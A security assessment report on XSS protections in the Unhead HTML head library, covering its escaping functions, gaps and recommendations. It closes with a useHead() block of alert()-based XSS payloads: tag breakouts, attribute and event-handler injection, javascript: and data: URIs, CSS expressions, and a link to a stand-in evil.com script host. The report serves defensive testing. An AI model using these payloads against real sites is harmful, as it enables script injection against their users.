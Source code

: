 # Unhead Security Research Report

## Executive Summary

This report documents an assessment of Unhead's security measures against Cross-Site Scripting (XSS) vulnerabilities. Unhead is a framework-agnostic head management library for managing HTML head tags, making it a critical component in the security posture of web applications that use it.

## Methodology

- Code analysis of XSS prevention mechanisms
- Review of existing XSS test coverage
- Identification of potential attack vectors

## Findings

### XSS Protection Mechanisms

Unhead implements several security measures to prevent XSS:

1. **HTML Escaping**: The library uses the `escapeHtml` function in `tagToString.ts` which properly escapes the following characters:
   - `&` → `&amp;`
   - `<` → `&lt;`
   - `>` → `&gt;`
   - `"` → `&quot;`
   - `'` → `&#x27;`
   - `/` → `&#x2F;`

2. **Attribute Encoding**: The `encodeAttribute` function in `propsToString.ts` escapes double quotes in attribute values using `&quot;`.

3. **Content Type Handling**: Different encoding is applied based on content type:
   - `textContent` is properly escaped to prevent XSS
   - `innerHTML` is intentionally not escaped (dangerous but documented)

### Potential Vulnerabilities

1. **innerHTML Handling**: The code explicitly notes that innerHTML is "dangerously" used without encoding. This is a deliberate design choice to allow HTML in certain contexts, but creates a potential attack vector if user input is directly passed to innerHTML.

2. **Script Content**: When using script tags, the code properly handles the potential injection of `</script>` tags by using the `devalue` library, which correctly escapes such content.

3. **Attribute Escaping**: While double quotes are escaped in attribute values, the encoding is limited compared to the more comprehensive `escapeHtml` function. This might present edge cases in certain browser contexts.

4. **JSON Content**: Special attention is given to JSON content in script tags, with proper escaping via the `devalue` library.

## Attack Vectors to Explore

1. **Contextual Bypasses**: Test if escaping works in all contexts (HTML, attributes, JavaScript, CSS, URL)
2. **DOM-based XSS**: Examine client-side rendering for potential DOM XSS vectors
3. **Template Injection**: Test handling of complex template variables and expressions
4. **Script Execution**: Test script loading mechanisms and event handling
5. **Sanitization Bypass**: Attempt to bypass the escaping mechanisms

## Recommendations

1. **innerHTML Usage**: Consider adding a sanitization option for innerHTML content
2. **Attribute Encoding**: Enhance the attribute encoding to match the more comprehensive HTML encoding
3. **Additional Test Coverage**: Expand test coverage for edge cases and exotic payloads
4. **User Documentation**: Clearly document security best practices for users of the library
5. **URL Sanitization**: Implement sanitization for potentially dangerous URL schemas like javascript:, data:, and vbscript:
6. **Meta Tag Content**: Add proper content sanitization for meta tags to prevent SVG-based and other XSS payloads
7. **CSS Protection**: Consider sanitizing style content to prevent CSS-based attacks

## Comprehensive XSS Example

```js
// Example of a useHead() call that attempts to exploit multiple XSS vectors
useHead({
  // Title injection
  title: '</title><script>alert("title XSS")</script>',
  titleTemplate: '%s - <script>alert("template")</script>',
  
  // Meta tag vectors
  meta: [
    // SVG-based XSS
    { name: 'description', content: '<svg><script>alert("svg")</script></svg>' },
    // Attribute injection
    { name: 'keywords" onload="alert("attr")', content: 'SEO keywords' },
    // Unicode escape sequence
    { name: 'author', content: '\\u003Cscript\\u003Ealert("unicode")\\u003C/script\\u003E' },
    // Character encoding attack
    { 'http-equiv': 'content-type', content: 'text/html; charset=UTF-7; X-XSS-Protection: "0";' },
    // Case variation bypass
    { name: 'viewport', content: '<ScRiPt>alert("case")</ScRiPt>' },
    // Emoji obfuscation
    { name: 'robots', content: '📝➡️<script>alert("emoji")</script>' },
    // innerHTML attempt (shouldn't work)
    { name: 'generator', innerHTML: '<script>alert("meta-inner")</script>' }
  ],
  
  // Link attacks
  link: [
    // Javascript protocol
    { rel: 'stylesheet', href: 'javascript:alert("js-protocol")' },
    // Data URI 
    { rel: 'icon', href: 'data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4=' },
    // Protocol switching
    { rel: 'dns-prefetch', href: '//evil.com/xss.js' },
    // HTML-encoded colon
    { rel: 'preconnect', href: 'javascript&#58;alert("encoded")' },
    // Other protocol
    { rel: 'prefetch', href: 'vbscript:alert("vbscript")' }
  ],
  
  // Script attacks
  script: [
    // Template literal with closing script
    { innerHTML: `
      const template = \`
        </script>
        <img src=x onerror="alert('template-literal')">
        <script>
      \`;
      console.log(template);
    ` },
    // Null byte insertion
    { innerHTML: `console.log("Null byte attack: \\0')</script><script>alert('null-byte')</script>")` },
    // String concatenation bypass
    { innerHTML: `console.log("</scr"+"ipt><script>alert('concat')</script>")` },
    // mXSS payload
    { innerHTML: `var xss = '<img src="1" onerror="alert(\\'mxss\\')" />';` },
    // JSON with devalue (should be properly escaped)
    { type: 'application/json', innerHTML: JSON.stringify({ payload: '</script><script>alert("json")</script>' }) }
  ],
  
  // Style attacks
  style: [
    // CSS expression
    { innerHTML: `body { color: expression(alert('css-expression')) }` },
    // CSS url injection
    { innerHTML: `body { background: url('javascript:alert("css-url")') }` }
  ],
  
  // HTML attributes
  htmlAttrs: {
    'onload': 'alert("html-event")',
    'data-attr': '"><script>alert("html-attr")</script>'
  },
  
  // Body attributes
  bodyAttrs: {
    'data-custom': `x" onmouseover="alert('body-attr')" data-x="`
  },
  
  // Base attack
  base: { href: 'javascript:alert("base")' }
})
```

## Next Steps

Further testing required:
- Dynamic content insertion
- Framework-specific integration points
- Client-side rendering security
- Event handler sanitization

---

*This is an initial security assessment and should be followed by comprehensive penetration testing.*